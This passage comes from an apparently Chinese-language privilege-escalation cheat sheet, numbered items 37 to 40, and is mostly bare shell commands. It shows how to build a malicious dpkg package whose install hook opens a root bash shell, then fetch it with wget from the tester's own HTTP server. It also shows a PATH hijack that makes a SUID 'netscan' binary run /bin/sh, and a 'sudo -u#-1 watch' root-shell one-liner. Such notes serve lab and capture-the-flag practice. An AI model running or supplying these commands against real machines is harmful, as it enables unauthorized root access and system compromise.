 ![Snipaste_2020-02-10_15-41-43.png](https://i.loli.net/2020/02/10/ZiqTdmjaU3uf6bM.png)

#### 三十七、SUID权限可执行文件dpkg提权（rudra）

```
gem sources -a http://mirrors.aliyun.com/rubygems/
gem install fpm
vi shell.sh
#!/bin/bash
/bin/bash
:wq进行保存
fpm -s dir -t deb -n exploit --before-install shell.sh ./
python -m SimpleHTTPServer 65534
#靶机
wget http://192.168.25.172:8000/exploit_1.0_amd64.deb
sudo -u root /usr/bin/dpkg -i exploit_1.0_amd64.deb
```

![Snipaste_2020-02-10_15-46-18.png](https://i.loli.net/2020/02/10/OS7JpiQvPkNoMhn.png)

#### 三十八、SUID权限可执行文件netscan，运行netstat

> https://www.anquanke.com/post/id/146799

```
cd /tmp
echo "/bin/sh" > netstat
chmod 777 netstat
echo $PATH
export PATH=/tmp:$PATH
cd /usr/bin
./netscan
whoami
```

#### 三十九、SUDO权限watch提权

```
sudo -u#-1 watch -x sh -c 'reset; exec sh 1>&0 2>&0' -u
```

#### 四十、joomla